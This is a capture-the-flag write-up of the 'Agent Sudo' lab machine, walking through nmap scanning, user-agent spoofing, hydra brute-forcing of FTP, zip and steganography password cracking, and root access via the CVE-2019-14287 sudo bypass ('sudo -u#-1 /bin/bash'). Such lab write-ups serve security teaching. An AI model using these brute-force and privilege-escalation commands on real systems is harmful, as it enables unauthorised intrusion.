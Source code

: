 # Agent Sudo 

> Lorenzo De Simone | 16.12.2022

----------------------------------

## Hosts 

```bash
$IP=10.10.31.105
```

## Enumeration

1. How many open ports? 

```bash
$ sudo nmap -sC -sV -oN nmap/initial 10.10.31.105
[sudo] password for lorenzo: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-16 23:51 CET
Nmap scan report for 10.10.31.105
Host is up (0.039s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.12 seconds

```

2. How you redirect yourself to a secret page? 

```
Use your own codename as user-agent to access the site 
```

3. What is the agent name? 

```bash
$ curl -A "R" -L 10.10.31.105
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
<!DocType html>
<html>
<head>
	<title>Annoucement</title>
</head>

<body>
<p>
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>
</body>
</html>

```

```bash
$ curl -A "C" -L 10.10.31.105
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```
Using curl with -A to spoof the user-agent and -L to follow any redirects 

R is a valid codename but not the one we are searching for. Since there are 25 Employees the codenames probably follow the alphabet

## Hash cracking and brute-force

1. FTP password 

```bash
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.31.105 ftp     
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-17 00:21:15
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.31.105:21/
[21][ftp] host: 10.10.31.105   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-17 00:22:22

```
Options: 
-l => specifiy Username 
-P => specifiy Worlist 

2. Zip Password 

```
$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
```
$ binwalk cutie.png     

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22 
```
Extracting the .zip with binwalk -e cutie.png reveals 8702.zip

Getting the password for the .zip file: 

```
$ zip2john 8702.zip > hashes 
```
```
$ john hashes                                                                                          1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE 2/3 (2022-12-17 00:43) 1.176g/s 52287p/s 52287c/s 52287C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Decrypt .zip file with 7z e "filename"

```
$ cat To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R

```

3. steg password

```
$ echo  "QXJlYTUx" | base64 -d
Area51 
```

4. Who is the other agent (in full name?)

```
$ steghide info cute-alien.jpg 
"cute-alien.jpg":
  format: jpeg
  capacity: 1.8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "message.txt":
    size: 181.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes

```
```
$ steghide extract -sf cute-alien.jpg                                                                130 ⨯
Enter passphrase: 
wrote extracted data to "message.txt".
```

5. SSH Password

Found Name name and Password in message.txt

## Capture the User Flag 

1. What is The User Flag 
> User Flag found in James home directory 

## Privilege escalation

1. CVE Number for the escalation 
> CVE-2019-14287

Explanation: 
https://www.exploit-db.com/exploits/47502

2. Priv esc 
> sudo -u#-1 /bin/bash



